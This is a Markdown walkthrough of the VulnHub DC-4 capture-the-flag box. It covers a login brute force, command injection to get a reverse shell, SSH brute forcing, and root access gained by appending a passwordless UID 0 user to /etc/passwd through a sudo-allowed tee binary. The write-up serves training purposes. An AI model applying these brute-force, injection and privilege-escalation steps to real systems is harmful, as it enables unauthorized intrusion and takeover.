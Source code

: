 ```yaml
---
layout: "post"
title: "DC 4 Walkthrough"
categories: [vulnhub, DC-Series]
tags: [dc-4 easy teehee]
---
```

DC-4 is a good beginner-friendly box. We `bruteforce` the website and get admin password. with the help of `OS command injection` vulnerability get shell on box. The old-password list gives password of user jim and mail from charles gives another password. We get root by adding user in `/etc/passwd` file using `teehee`. 

# Summery
- Portscan
- Bruteforce site to get admin password
- Command Injection
- Bruteforce SSH 
- Find password from mail
- Check Sudoers
- Add new user using teehee
- Root access
- The Flag

# Recon

## Portscan
```bash
Nmap scan report for 192.168.1.8
Host is up (0.00020s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:60:57:06:6c:27:e0:2f:76:2c:e6:42:c0:01:ba:25 (RSA)
|   256 e7:83:8c:d7:bb:84:f3:2e:e8:a2:5f:79:6f:8e:19:30 (ECDSA)
|_  256 fd:39:47:8a:5e:58:33:99:73:73:9e:22:7f:90:4f:4b (ED25519)
80/tcp open  http    nginx 1.15.10
|_http-server-header: nginx/1.15.10
|_http-title: System Tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Website
We have a login page on the website with title `Admin inforamtion Systems login` 
![mainpage](/assets/img/dc-4/mainpage.png)
## Gobuster
After running gobuster we see that we have a `command.php` but it redirect to login.php. I tried sql injection and other attacks but no luck. The final option is Bruteforce.

```bash
$gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.1.8 -x php,html,txt -o go-main.out
/index.php (Status: 200)
/images (Status: 301)
/login.php (Status: 302)
/css (Status: 301)
/logout.php (Status: 302)
/command.php (Status: 302)
```
# Bruteforce using burpsuite
As per the site mainpage, I set username filed as `admin` and using burpsuite brute force the login page.

![burpsuite](/assets/img/dc-4/b1.png)
![burpsuite](/assets/img/dc-4/b2.png)

We get credentials.

```
username : admin
password : happy
```

# Command injection
After login we have command option by clicking this we can see list of commands.
Pick one of them and see the result.

![command](/assets/img/dc-4/command.png)
![command2](/assets/img/dc-4/command2.png)

So, I intercept the request in burp and send it to repeter.
Change the radio option to reverse shell, set up netcat listener and get the shell.

![reverse](/assets/img/dc-4/b3.png)
![nc](/assets/img/dc-4/nc.png)

# First User 
There are 3 user on box *charles, jim* and *sam*. We found old-password.txt in home directory of user jim.
![users](/assets/img/dc-4/users.png)
Now brute force the SSH and we get password for jim.
![hydra](/assets/img/dc-4/ssh.png)

Use this password to login to ssh.

```
username : jim
password : jibril04
```

# Second User
The jim directory has `mbox` which is an test email. So, I checked `/var/mail` folder there is mail for jim.

```
jim@dc-4:~$ ls
backups  mbox  test.sh
jim@dc-4:~$ cd /var/mail
jim@dc-4:/var/mail$ ls
jim
```

Mail has password for `charles`.
```
jim@dc-4:/var/mail$ cat jim
From charles@dc-4 Sat Apr 06 21:15:46 2019
Return-path: <charles@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
Received: from charles by dc-4 with local (Exim 4.89)
	(envelope-from <charles@dc-4>)
	id 1hCjIX-0000kO-Qt
	for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCjIX-0000kO-Qt@dc-4>
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000
Status: O

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles
```
Use this password to login to `charles`.

```
jim@dc-4:~$ su - charles
Password: 
charles@dc-4:~$ 
```

```
username : charles
Password : ^xHhA&hvim0y
```

# Privsec to root
Now I checked the sudoers list and found that I can run teehee command without password.

```
charles@dc-4:~$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
```

We can also see the help menu.

```
charles@dc-4:~$ teehee --help
Usage: teehee [OPTION]... [FILE]...
Copy standard input to each FILE, and also to standard output.

  -a, --append              append to the given FILEs, do not overwrite
  -i, --ignore-interrupts   ignore interrupt signals
  -p                        diagnose errors writing to non pipes
      --output-error[=MODE]   set behavior on write error.  See MODE below
      --help     display this help and exit
      --version  output version information and exit

MODE determines behavior with write errors on the outputs:
  'warn'         diagnose errors writing to any output
  'warn-nopipe'  diagnose errors writing to any output not a pipe
  'exit'         exit on error writing to any output
  'exit-nopipe'  exit on error writing to any output not a pipe
The default MODE for the -p option is 'warn-nopipe'.
The default operation when --output-error is not specified, is to
exit immediately on error writing to a pipe, and diagnose errors
writing to non pipe outputs.

GNU coreutils online help: <http://www.gnu.org/software/coreutils/>
Full documentation at: <http://www.gnu.org/software/coreutils/tee>
or available locally via: info '(coreutils) tee invocation'

```
This binary append standered input to file. I added user in the /etc/passwd.

```
charles@dc-4:~$ sudo teehee -a /etc/passwd
user::0:0:::/bin/bash 
user::0:0:::/bin/bash
^C
charles@dc-4:~$ su user
root@dc-4:/home/charles# 
```
# Root Flag

```bash
root@dc-4:/root# cat flag.txt 



888       888          888 888      8888888b.                             888 888 888 888 
888   o   888          888 888      888  "Y88b                            888 888 888 888 
888  d8b  888          888 888      888    888                            888 888 888 888 
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888 
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888 
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P 
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "  
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888 


Congratulations!!!

Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```
